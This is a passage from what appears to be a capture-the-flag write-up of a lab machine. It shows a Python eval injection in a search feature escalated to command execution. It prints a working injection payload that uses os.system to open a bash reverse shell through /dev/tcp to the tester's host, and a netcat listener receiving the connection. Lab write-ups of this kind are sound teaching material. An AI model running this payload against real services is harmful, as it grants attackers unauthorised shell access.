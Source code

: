 By editing the request in burpsuite, we can see when we supply a single `'` mark, the request breaks.

![Empty response](Images/singlequot.png)

If we can supply new arguments in the proper syntax, we can achieve code execution.

## Foothold
### Obtaining shell access as user svc

After a little bit of trial and error, I managed to achieve code execution:

![Executing id](Images/idexecution.png)

In addition to the single quote, we also needed `)` to end the search function, followed by a `,` to supply a 2nd object to eval. `__import__('os').system()` is our set up for command execution, where we supply the shell command in system(). From here, a reverse shell can be obtained by searching for a bash rev shell payload:
```
asdf'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.139/8888 0>&1"') #
```
I found that this command had trouble executing from burpsuite, but has no issue if you simply return to the webpage and execute from your browser.
On a listening session:
```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.208] 36252
bash: cannot set terminal process group (1631): Inappropriate ioctl for device
```